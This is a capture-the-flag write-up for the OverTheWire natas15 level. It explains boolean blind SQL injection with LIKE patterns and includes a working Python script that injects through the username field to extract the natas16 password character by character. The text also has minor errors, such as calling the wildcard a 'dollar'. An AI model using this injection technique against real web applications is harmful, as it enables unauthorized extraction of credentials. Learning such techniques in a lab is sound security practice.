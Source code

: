 # natas15

The first we see the Source code, which tells us we only have `username` where we can try SQLi. 
Now when we put `natas15`, the user doesn't exist but `natas16` does. This gives us the clue that we may get the password of natas16 using natas16. By that I mean, if i am in natas15, i can see the password of natas15 in Source code. 
<br>
Now here is a concept of SQL wer should know. If we want to guess that if username="something" and password has "a" or begins with "a". We use the below idea-

```sql
-- EXAMPLE
-- when we want "a" to exist somewhere in password
select * from users where username="name" and password like "%a%"; 
-- when we want password to start with "test"
select * from users where username="name" and password like "test%"; 
-- when we want password to end with "test"
select * from users where username="name" and password like "%test"; 
-- The dollar assume "anything" plus "your_given_string"
```
Since the source code mentions we have table with username(64 char max) and password(64 char max),
This case is called BLIND SQLi, cause we can't figure out what to do. Nothing usual works.<br>
Now we will write a python code using 2nd example which will give us the password. This is basically brute forcing the password.
<br>
The code useful will be-

```python
import requests
import string

url = 'http://natas15.natas.labs.overthewire.org/'
auth = ('natas15', '<password>')  # replace <password> with the actual password
characters = string.ascii_letters + string.digits
known_password = ''

session = requests.Session()
session.auth = auth

for i in range(32):  # assuming the password is 32 characters long
    for char in characters:
        sql = f'natas16" AND password LIKE BINARY "{known_password}{char}%'
        response = session.get(url, params={'username': sql})
        if 'This user exists.' in response.text:
            known_password += char
            print(known_password)
            break

print(known_password)
```
This code will print out the password for natas16 and we are done.